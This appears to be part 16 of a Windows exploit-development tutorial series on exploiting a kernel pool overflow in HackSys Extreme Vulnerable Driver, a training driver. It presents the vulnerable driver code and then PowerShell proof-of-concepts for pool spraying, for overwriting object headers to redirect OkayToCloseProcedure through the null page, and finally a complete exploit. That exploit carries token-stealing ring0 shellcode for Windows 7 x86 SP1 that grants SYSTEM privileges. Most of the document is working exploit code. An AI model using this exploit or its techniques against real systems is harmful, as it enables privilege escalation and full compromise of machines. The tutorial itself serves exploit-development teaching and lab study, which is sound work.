










NTSTATUS TriggerPoolOverflow(IN PVOID UserBuffer, IN SIZE_T Size) {
PVOID KernelBuffer = NULL;
NTSTATUS Status = STATUS_SUCCESS;
PAGED_CODE();
__try {
DbgPrint("[+] Allocating Pool chunk\n");
// Allocate Pool chunk
KernelBuffer = ExAllocatePoolWithTag(NonPagedPool,
(SIZE_T)POOL_BUFFER_SIZE,
(ULONG)POOL_TAG);
if (!KernelBuffer) {
// Unable to allocate Pool chunk
DbgPrint("[-] Unable to allocate Pool chunk\n");
Status = STATUS_NO_MEMORY;
return Status;
}
else {
DbgPrint("[+] Pool Tag: %s\n", STRINGIFY(POOL_TAG));
DbgPrint("[+] Pool Type: %s\n", STRINGIFY(NonPagedPool));
DbgPrint("[+] Pool Size: 0x%X\n", (SIZE_T)POOL_BUFFER_SIZE);
DbgPrint("[+] Pool Chunk: 0x%p\n", KernelBuffer);
}
// Verify if the buffer resides in user mode
ProbeForRead(UserBuffer, (SIZE_T)POOL_BUFFER_SIZE, (ULONG)__alignof(UCHAR));
DbgPrint("[+] UserBuffer: 0x%p\n", UserBuffer);
DbgPrint("[+] UserBuffer Size: 0x%X\n", Size);
DbgPrint("[+] KernelBuffer: 0x%p\n", KernelBuffer);
DbgPrint("[+] KernelBuffer Size: 0x%X\n", (SIZE_T)POOL_BUFFER_SIZE);
#ifdef SECURE
// Secure Note: This is secure because the developer is passing a size
// equal to size of the allocated Pool chunk to RtlCopyMemory()/memcpy().
// Hence, there will be no overflow
RtlCopyMemory(KernelBuffer, UserBuffer, (SIZE_T)BUFFER_SIZE);
#else
DbgPrint("[+] Triggering Pool Overflow\n");
// Vulnerability Note: This is a vanilla Pool Based Overflow vulnerability
// because the developer is passing the user supplied value directly to
// RtlCopyMemory()/memcpy() without validating if the size is greater or
// equal to the size of the allocated Pool chunk
RtlCopyMemory(KernelBuffer, UserBuffer, Size);
#endif
if (KernelBuffer) {
DbgPrint("[+] Freeing Pool chunk\n");
DbgPrint("[+] Pool Tag: %s\n", STRINGIFY(POOL_TAG));
DbgPrint("[+] Pool Chunk: 0x%p\n", KernelBuffer);
// Free the allocated Pool chunk
ExFreePoolWithTag(KernelBuffer, (ULONG)POOL_TAG);
KernelBuffer = NULL;
}
}
__except (EXCEPTION_EXECUTE_HANDLER) {
Status = GetExceptionCode();
DbgPrint("[-] Exception Code: 0x%X\n", Status);
}
return Status;
}
Part 16: Kernel Exploitation -> Pool Overflow
Hola, and welcome back to part 16 of the Windows exploit development tutorial series. Today we will be exploiting a pool overflow using @HackSysTeam's extreme vulnerable driver. Again, I strongly recommend readers get a leg up and review the resources listed below before getting into this post, additionally for more background on pool allocations see part 15. Details on setting up the debugging environment can be found in part 10.
Resources:
+ HackSysExtremeVulnerableDriver (@HackSysTeam) - here
+ HackSysTeam-PSKernelPwn (@FuzzySec) - here
+ Kernel Pool Exploitation on Windows 7 (@kernelpool) - here
+ Understanding Pool Corruption Part 1 (MSDN) - here
+ Understanding Pool Corruption Part 2 (MSDN) - here
+ Understanding Pool Corruption Part 3 (MSDN) - here
Recon the challenge
Let's have a look at part of the vulnerable function in question (here).
Obvious bug is obvious! The driver allocates a pool chunk of size X and copies user supplied data into it, however, it does not check if the user supplied data is larger than the memory it has allocated. As a result, any extra data will overflow into the adjacent chunk on the non-paged pool! I suggest you explore the function further in IDA, for completeness the function prologue can be seen below showing the pool tag and allocated chunk size.

We can use the following PowerShell POC to call the function. Notice that we are using the maximum available size, any further data will spill over into the next chunk!
Add-Type -TypeDefinition @"
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Security.Principal;
public static class EVD
{
[DllImport("kernel32.dll", CharSet = CharSet.Auto, SetLastError = true)]
public static extern IntPtr CreateFile(
String lpFileName,
UInt32 dwDesiredAccess,
UInt32 dwShareMode,
IntPtr lpSecurityAttributes,
UInt32 dwCreationDisposition,
UInt32 dwFlagsAndAttributes,
IntPtr hTemplateFile);
[DllImport("Kernel32.dll", SetLastError = true)]
public static extern bool DeviceIoControl(
IntPtr hDevice,
int IoControlCode,
byte[] InBuffer,
int nInBufferSize,
byte[] OutBuffer,
int nOutBufferSize,
ref int pBytesReturned,
IntPtr Overlapped);
[DllImport("kernel32.dll", SetLastError = true)]
public static extern void DebugBreak();
}
"@
$hDevice = [EVD]::CreateFile("\\.\HacksysExtremeVulnerableDriver", [System.IO.FileAccess]::ReadWrite, [System.IO.FileShare]::ReadWrite, [System.IntPtr]::Zero, 0x3, 0x40000080, [System.IntPtr]::Zero)
if ($hDevice -eq -1) {
echo "`n[!] Unable to get driver handle..`n"
Return
} else {
echo "`n[>] Driver information.."
echo "[+] lpFileName: \\.\HacksysExtremeVulnerableDriver"
echo "[+] Handle: $hDevice"
}
# HACKSYS_EVD_IOCTL_POOL_OVERFLOW IOCTL = 0x22200F
#---
$Buffer = [Byte[]](0x41)*0x1F8
echo "`n[>] Sending buffer.."
echo "[+] Buffer length: $($Buffer.Length)"
echo "[+] IOCTL: 0x22200F"
[EVD]::DeviceIoControl($hDevice, 0x22200F, $Buffer, $Buffer.Length, $null, 0, [ref]0, [System.IntPtr]::Zero) |Out-null
echo "`n[>] Triggering WinDBG breakpoint.."
[EVD]::DebugBreak()

As we can see, the allocated chunk has a size of 0x200 and our buffer stops right next to the adjacent pool header. Let's try that again and increase the size or our buffer by 8 overwriting the subsequent chunk header.
$Buffer = [Byte[]](0x41)*0x1F8 + [Byte[]](0x42)*0x4 + [Byte[]](0x43)*0x4

There are a number of bugs we could trigger here depending on the state of the pool and the chunk we are overwriting randomly (in this case a double free). Either way we BSOD the box and we have our exploit primitive!
Pwn all the things!
Game Plan
I think it's auspicious to briefly lay out a game plan. We will (1) get the non-paged pool in a predictable state, (2) trigger a controlled pool overflow, (3) take advantage of pool internals to set a shellcode callback and (4) free the corrupted pool chunk to get code execution!
I strongly recommend you read Tarjei's paper and review part 15 of this series. This will help explain in greater detail how our chunk allocation feng shui works :p!
Derandomize the Non-Paged Pool
In the previous post we sprayed the non-paged pool with IoCompletionReserve objects with a size of 0x60. Here, however, our target object has a size of 0x200 so we need to spray something with that size or with an object which can be multiplied to that size. Fortunately, event objects have a size of 0x40, which multiplied by 8 nicely comes out at 0x200.
The following POC first allocates 10000 event objects to defragment the non-paged pool and then a further 5000 to get predictable allocations. Notice that we are dumping the last 10 object handles to stdout and then manually triggering a breakpoint in WinDBG.
Add-Type -TypeDefinition @"
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Security.Principal;
public static class EVD
{
[DllImport("kernel32.dll", SetLastError = true)]
public static extern Byte CloseHandle(
IntPtr hObject);
[DllImport("kernel32.dll", SetLastError = true)]
public static extern int CreateEvent(
IntPtr lpEventAttributes,
Byte bManualReset,
Byte bInitialState,
String lpName);
[DllImport("kernel32.dll", SetLastError = true)]
public static extern void DebugBreak();
}
"@
function Event-PoolSpray {
echo "[+] Derandomizing NonPagedPool.."
$Spray = @()
for ($i=0;$i -lt 10000;$i++) {
$CallResult = [EVD]::CreateEvent([System.IntPtr]::Zero, 0, 0, "")
if ($CallResult -ne 0) {
$Spray += $CallResult
}
}
$Script:Event_hArray1 += $Spray
echo "[+] $($Event_hArray1.Length) event objects created!"
echo "[+] Allocating sequential objects.."
$Spray = @()
for ($i=0;$i -lt 5000;$i++) {
$CallResult = [EVD]::CreateEvent([System.IntPtr]::Zero, 0, 0, "")
if ($CallResult -ne 0) {
$Spray += $CallResult
}
}
$Script:Event_hArray2 += $Spray
echo "[+] $($Event_hArray2.Length) event objects created!"
}
echo "`n[>] Spraying non-paged kernel pool!"
Event-PoolSpray
echo "`n[>] Last 10 object handles:"
for ($i=1;$i -lt 11; $i++) {
"{0:X}" -f $($($Event_hArray2[-$i]))
}
Start-Sleep -s 3
echo "`n[>] Triggering WinDBG breakpoint.."
[EVD]::DebugBreak()
You should see something like this and hit a breakpoint in WinDBG.

Looking at one of the handles we dumped to stdout we can see nice sequential 0x40 byte allocations.

To get the pool in a desirable state, the only thing we need to do is free segments of 0x200 bytes from our second allocation. This will create holes for the driver object to use. The POC below illustrates this.
Add-Type -TypeDefinition @"
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Security.Principal;
public static class EVD
{
[DllImport("kernel32.dll", SetLastError = true)]
public static extern Byte CloseHandle(
IntPtr hObject);
[DllImport("kernel32.dll", SetLastError = true)]
public static extern int CreateEvent(
IntPtr lpEventAttributes,
Byte bManualReset,
Byte bInitialState,
String lpName);
[DllImport("kernel32.dll", SetLastError = true)]
public static extern void DebugBreak();
}
"@
function Event-PoolSpray {
echo "[+] Derandomizing NonPagedPool.."
$Spray = @()
for ($i=0;$i -lt 10000;$i++) {
$CallResult = [EVD]::CreateEvent([System.IntPtr]::Zero, 0, 0, "")
if ($CallResult -ne 0) {
$Spray += $CallResult
}
}
$Script:Event_hArray1 += $Spray
echo "[+] $($Event_hArray1.Length) event objects created!"
echo "[+] Allocating sequential objects.."
$Spray = @()
for ($i=0;$i -lt 5000;$i++) {
$CallResult = [EVD]::CreateEvent([System.IntPtr]::Zero, 0, 0, "")
if ($CallResult -ne 0) {
$Spray += $CallResult
}
}
$Script:Event_hArray2 += $Spray
echo "[+] $($Event_hArray2.Length) event objects created!"
echo "[+] Creating non-paged pool holes.."
for ($i=0;$i -lt $($Event_hArray2.Length);$i+=16) {
for ($j=0;$j -lt 8;$j++) {
$CallResult = [EVD]::CloseHandle($Event_hArray2[$i+$j])
if ($CallResult -ne 0) {
$FreeCount += 1
}
}
}
echo "[+] Free'd $FreeCount event objects!"
}
echo "`n[>] Spraying non-paged kernel pool!"
Event-PoolSpray
echo "`n[>] Last 16 object handles:"
for ($i=1;$i -lt 17; $i++) {
"{0:X}" -f $($($Event_hArray2[-$i]))
}
Start-Sleep -s 3
echo "`n[>] Triggering WinDBG breakpoint.."
[EVD]::DebugBreak()
Pool chunk structure 101
As mentioned before, we will be taking advantage of "pool internals" to get code execution. We already saw that messing up these structures invariably results in a BSOD so we would do well to get a better understanding of the layout of pool chunks.
Below we can see the full composition of one single event object and the various structures it is made up of!

First off, there is a WinDBG bug here, it does not really matter as far as illustrating the chunk structure but it is annoying as hell! Anyone can see the issue here? Free cake if someone can tell me why (cake is a lie)! Anyway we have three headers which we need to keep consistent (to a degree) when we later perform our overflow.
Notice the TypeIndex with a size of 0xC in the OBJECT_HEADER, this value is an offset in an array of pointers which describe the object type of the chunk. We can verify this as follows.

We can further enumerate the OBJECT_TYPE associated with our event object pointer. Also, notice that the first pointer in the array is null (0x00000000).

The important part here is the offset to the "OkayToCloseProcedure". If, when the handle to the object is released and the chunk is freed, this value is not null the kernel will jump to the address and execute whatever it finds there. As an aside, it is also possible to use other elements in this structure, such as the "DeleteProcedure".
The question is how can we use this to our advantage? Remember that the pool chunk itself contains the TypeIndex value (0xC), if we overflow the chunk and change that value to 0x0 then the object will attempt to look for the OBJECT_TYPE structure on the process null page. As this is Windows 7, we can allocate the null page and create a fake "OkayToCloseProcedure" pointer to our shellcode. After freeing the corrupted chunk the kernel should execute our code!
Controlling EIP
Ok, we're almost home free! We have controlled pool allocation and we know that after our 0x200 byte object we will have a 0x40 byte event object. We can use the following buffer to precisely overwrite the three chunk headers we saw earlier.
$PoolHeader = [Byte[]] @( 0x40, 0x00, 0x08, 0x04, # PrevSize,Size,Index,Type union (0x04080040) 0x45, 0x76, 0x65, 0xee # PoolTag -> Event (0xee657645) ) $ObjectHeaderQuotaInfo = [Byte[]] @( 0x00, 0x00, 0x00, 0x00, # PagedPoolCharge 0x40, 0x00, 0x00, 0x00, # NonPagedPoolCharge (0x40) 0x00, 0x00, 0x00, 0x00, # SecurityDescriptorCharge 0x00, 0x00, 0x00, 0x00 # SecurityDescriptorQuotaBlock ) # The object header is partially overwritten $ObjectHeader = [Byte[]] @( 0x01, 0x00, 0x00, 0x00, # PointerCount (0x1) 0x01, 0x00, 0x00, 0x00, # HandleCount (0x1) 0x00, 0x00, 0x00, 0x00, # Lock -> _EX_PUSH_LOCK 0x00, # TypeIndex (Rewrite 0xC -> 0x0) 0x00, # TraceFlags 0x08, # InfoMask 0x00 # Flags ) # HACKSYS_EVD_IOCTL_POOL_OVERFLOW IOCTL = 0x22200F #--- $Buffer = [Byte[]](0x41)*0x1f8 + $PoolHeader + $ObjectHeaderQuotaInfo + $ObjectHeader
The only value we are tainting here is the TypeIndex which we chnage from 0x0C to 0x00. We can carefully craft a fake "OkayToCloseProcedure" pointer with the following code.
echo "`n[>] Allocating process null page.."
[IntPtr]$ProcHandle = (Get-Process -Id ([System.Diagnostics.Process]::GetCurrentProcess().Id)).Handle
[IntPtr]$BaseAddress = 0x1 # Rounded down to 0x00000000
[UInt32]$AllocationSize = 120 # 0x78
$CallResult = [EVD]::NtAllocateVirtualMemory($ProcHandle, [ref]$BaseAddress, 0, [ref]$AllocationSize, 0x3000, 0x40)
if ($CallResult -ne 0) {
echo "[!] Failed to allocate null-page..`n"
Return
} else {
echo "[+] Success"
}
echo "[+] Writing shellcode pointer to 0x00000074"
$OkayToCloseProcedure = [Byte[]](0x43)*0x4
[System.Runtime.InteropServices.Marshal]::Copy($OkayToCloseProcedure, 0, [IntPtr]0x74, $OkayToCloseProcedure.Length)
Let's confirm our theory in WinDBG.

Sw33t, pretty much game over at this point! Again, the observant reader will notice the same annoying WinDBG bug as earlier.
Shellcode
As in the previous posts, we can reuse our shellcode, however there are two small tricks I leave to the diligent reader to figure out! One concerning the shellcode epilogue and the other the null page buffer layout.
Game Over
That's the whole run-down, for further details please refer to the full exploit below.
Add-Type -TypeDefinition @"
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Security.Principal;
public static class EVD
{
[DllImport("kernel32.dll", CharSet = CharSet.Auto, SetLastError = true)]
public static extern IntPtr CreateFile(
String lpFileName,
UInt32 dwDesiredAccess,
UInt32 dwShareMode,
IntPtr lpSecurityAttributes,
UInt32 dwCreationDisposition,
UInt32 dwFlagsAndAttributes,
IntPtr hTemplateFile);
[DllImport("Kernel32.dll", SetLastError = true)]
public static extern bool DeviceIoControl(
IntPtr hDevice,
int IoControlCode,
byte[] InBuffer,
int nInBufferSize,
byte[] OutBuffer,
int nOutBufferSize,
ref int pBytesReturned,
IntPtr Overlapped);
[DllImport("kernel32.dll", SetLastError = true)]
public static extern Byte CloseHandle(
IntPtr hObject);
[DllImport("kernel32.dll", SetLastError = true)]
public static extern int CreateEvent(
IntPtr lpEventAttributes,
Byte bManualReset,
Byte bInitialState,
String lpName);
[DllImport("kernel32.dll", SetLastError = true)]
public static extern IntPtr VirtualAlloc(
IntPtr lpAddress,
uint dwSize,
UInt32 flAllocationType,
UInt32 flProtect);
[DllImport("ntdll.dll")]
public static extern uint NtAllocateVirtualMemory(
IntPtr ProcessHandle,
ref IntPtr BaseAddress,
uint ZeroBits,
ref UInt32 AllocationSize,
UInt32 AllocationType,
UInt32 Protect);
}
"@
function Event-PoolSpray {
echo "[+] Derandomizing NonPagedPool.."
$Spray = @()
for ($i=0;$i -lt 10000;$i++) {
$CallResult = [EVD]::CreateEvent([System.IntPtr]::Zero, 0, 0, "")
if ($CallResult -ne 0) {
$Spray += $CallResult
}
}
$Script:Event_hArray1 += $Spray
echo "[+] $($Event_hArray1.Length) event objects created!"
echo "[+] Allocating sequential objects.."
$Spray = @()
for ($i=0;$i -lt 5000;$i++) {
$CallResult = [EVD]::CreateEvent([System.IntPtr]::Zero, 0, 0, "")
if ($CallResult -ne 0) {
$Spray += $CallResult
}
}
$Script:Event_hArray2 += $Spray
echo "[+] $($Event_hArray2.Length) event objects created!"
echo "[+] Creating non-paged pool holes.."
for ($i=0;$i -lt $($Event_hArray2.Length-500);$i+=16) {
for ($j=0;$j -lt 8;$j++) {
$CallResult = [EVD]::CloseHandle($Event_hArray2[$i+$j])
if ($CallResult -ne 0) {
$FreeCount += 1
}
}
}
echo "[+] Free'd $FreeCount event objects!"
}
$hDevice = [EVD]::CreateFile("\\.\HacksysExtremeVulnerableDriver", [System.IO.FileAccess]::ReadWrite, [System.IO.FileShare]::ReadWrite, [System.IntPtr]::Zero, 0x3, 0x40000080, [System.IntPtr]::Zero)
if ($hDevice -eq -1) {
echo "`n[!] Unable to get driver handle..`n"
Return
} else {
echo "`n[>] Driver information.."
echo "[+] lpFileName: \\.\HacksysExtremeVulnerableDriver"
echo "[+] Handle: $hDevice"
}
# Compiled with Keystone-Engine
# Hardcoded offsets for Win7 x86 SP1
$Shellcode = [Byte[]] @(
#---[Setup]
0x60, # pushad
0x64, 0xA1, 0x24, 0x01, 0x00, 0x00, # mov eax, fs:[KTHREAD_OFFSET]
0x8B, 0x40, 0x50, # mov eax, [eax + EPROCESS_OFFSET]
0x89, 0xC1, # mov ecx, eax (Current _EPROCESS structure)
0x8B, 0x98, 0xF8, 0x00, 0x00, 0x00, # mov ebx, [eax + TOKEN_OFFSET]
#---[Copy System PID token]
0xBA, 0x04, 0x00, 0x00, 0x00, # mov edx, 4 (SYSTEM PID)
0x8B, 0x80, 0xB8, 0x00, 0x00, 0x00, # mov eax, [eax + FLINK_OFFSET] <-|
0x2D, 0xB8, 0x00, 0x00, 0x00, # sub eax, FLINK_OFFSET |
0x39, 0x90, 0xB4, 0x00, 0x00, 0x00, # cmp [eax + PID_OFFSET], edx |
0x75, 0xED, # jnz ->|
0x8B, 0x90, 0xF8, 0x00, 0x00, 0x00, # mov edx, [eax + TOKEN_OFFSET]
0x89, 0x91, 0xF8, 0x00, 0x00, 0x00, # mov [ecx + TOKEN_OFFSET], edx
#---[Recover]
0x61, # popad
0xC2, 0x10, 0x00 # ret 16
)
# Write shellcode to memory
echo "`n[>] Allocating ring0 payload.."
[IntPtr]$Pointer = [EVD]::VirtualAlloc([System.IntPtr]::Zero, $Shellcode.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($Shellcode, 0, $Pointer, $Shellcode.Length)
$ShellcodePointer = [System.BitConverter]::GetBytes($Pointer.ToInt32())
echo "[+] Payload size: $($Shellcode.Length)"
echo "[+] Payload address: 0x$("{0:X8}" -f $Pointer.ToInt32())"
echo "`n[>] Spraying non-paged kernel pool!"
Event-PoolSpray
# Allocate null-page
#---
# NtAllocateVirtualMemory must be used as VirtualAlloc
# will refuse a base address smaller than [IntPtr]0x1000
#---
echo "`n[>] Allocating process null page.."
[IntPtr]$ProcHandle = (Get-Process -Id ([System.Diagnostics.Process]::GetCurrentProcess().Id)).Handle
[IntPtr]$BaseAddress = 0x1 # Rounded down to 0x00000000
[UInt32]$AllocationSize = 120 # 0x78
$CallResult = [EVD]::NtAllocateVirtualMemory($ProcHandle, [ref]$BaseAddress, 0, [ref]$AllocationSize, 0x3000, 0x40)
if ($CallResult -ne 0) {
echo "[!] Failed to allocate null-page..`n"
Return
} else {
echo "[+] Success"
}
echo "[+] Writing shellcode pointer to 0x00000074"
$NullPage = [Byte[]](0x00)*0x73 + $ShellcodePointer
[System.Runtime.InteropServices.Marshal]::Copy($NullPage, 0, [IntPtr]0x1, $NullPage.Length)
$PoolHeader = [Byte[]] @(
0x40, 0x00, 0x08, 0x04, # PrevSize,Size,Index,Type union (0x04080040)
0x45, 0x76, 0x65, 0xee # PoolTag -> Event (0xee657645)
)
$ObjectHeaderQuotaInfo = [Byte[]] @(
0x00, 0x00, 0x00, 0x00, # PagedPoolCharge
0x40, 0x00, 0x00, 0x00, # NonPagedPoolCharge (0x40)
0x00, 0x00, 0x00, 0x00, # SecurityDescriptorCharge
0x00, 0x00, 0x00, 0x00 # SecurityDescriptorQuotaBlock
)
# This header is partial
$ObjectHeader = [Byte[]] @(
0x01, 0x00, 0x00, 0x00, # PointerCount (0x1)
0x01, 0x00, 0x00, 0x00, # HandleCount (0x1)
0x00, 0x00, 0x00, 0x00, # Lock -> _EX_PUSH_LOCK
0x00, # TypeIndex (Rewrite 0xC -> 0x0)
0x00, # TraceFlags
0x08, # InfoMask
0x00 # Flags
)
# HACKSYS_EVD_IOCTL_POOL_OVERFLOW IOCTL = 0x22200F
#---
$Buffer = [Byte[]](0x41)*0x1f8 + $PoolHeader + $ObjectHeaderQuotaInfo + $ObjectHeader
echo "`n[>] Sending buffer.."
echo "[+] Buffer length: $($Buffer.Length)"
echo "[+] IOCTL: 0x22200F"
[EVD]::DeviceIoControl($hDevice, 0x22200F, $Buffer, $Buffer.Length, $null, 0, [ref]0, [System.IntPtr]::Zero) |Out-null
echo "`n[>] Freeing pool chunks!`n"
for ($i=0;$i -lt $($Event_hArray2.Length);$i++) {
$CallResult = [EVD]::CloseHandle($Event_hArray2[$i])
}
